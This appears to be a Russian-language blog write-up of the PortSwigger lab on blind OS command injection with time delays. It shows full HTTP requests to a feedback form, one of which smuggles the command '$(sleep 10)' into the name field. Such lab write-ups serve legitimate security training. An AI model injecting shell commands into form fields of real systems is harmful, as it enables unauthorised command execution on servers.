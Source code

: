 ```yaml
---
title: "Blind OS command injection with time delays"
date: 2025-06-27
tags: [injection, writeup, web]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays"
classes: wide
---
```


Содержит уязвимость **Blind OS command injection**. Для решения нужно внедрить шелл и вызвать 10-ти секундную задержку ответа от сервера.

```
https://0ac5007f03b14177805be4a200920057.web-security-academy.net/
```

## Solution

Рекон — наше все. Пойду изучать страницу. Мой интерес вызвала форма для отзыва. Поковыряю ее:

```http
POST /feedback/submit HTTP/2
Host: 0ac5007f03b14177805be4a200920057.web-security-academy.net
Cookie: session=xpoqTmDMOzriSDsLRyYXUxX5xlpU1lvO
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ac5007f03b14177805be4a200920057.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: https://0ac5007f03b14177805be4a200920057.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=gO442Yqa8SZUXZZM1ifSoONgSgGIh4az&name=name&email=mail%40mail&subject=subject&message=message+
```

Отзыв отправляется через данную форму. Попробую подставить разные значения в поля. Так же интересно, что в ответе мне вернулся пустой `json`:

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2

{}
```

Итак, попробую подставить `sleep 10` в поля формы:

```http
POST /feedback/submit HTTP/2
Host: 0ac5007f03b14177805be4a200920057.web-security-academy.net
Cookie: session=xpoqTmDMOzriSDsLRyYXUxX5xlpU1lvO
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ac5007f03b14177805be4a200920057.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Origin: https://0ac5007f03b14177805be4a200920057.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=gO442Yqa8SZUXZZM1ifSoONgSgGIh4az&name=$(sleep 10)&email=mail%40mail&subject=subject&message=message+body
```

И сразу попадание)

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_time_delays/1.png){: height="200" .align-center}

Лаба решена, получается...

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_time_delays/2.png){: height="200" .align-center}
